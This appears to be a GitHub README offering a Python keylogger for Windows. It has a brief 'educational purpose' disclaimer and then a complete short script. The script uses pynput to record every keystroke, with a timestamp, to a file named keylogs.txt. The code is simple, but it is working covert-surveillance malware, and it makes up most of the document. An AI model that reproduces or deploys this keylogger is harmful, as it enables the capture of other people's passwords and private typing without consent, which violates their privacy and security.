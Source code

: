 # Python-keylogger
This the Keylogger made with the python programming language. Please use this script wisely, this is only for educational purpose and if any harmful activity happen i am the one how is responsible                                                                  






KEYLOGGER FOR WINDOWS USING PYTHON
------------------------------------------------

CODE:

from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
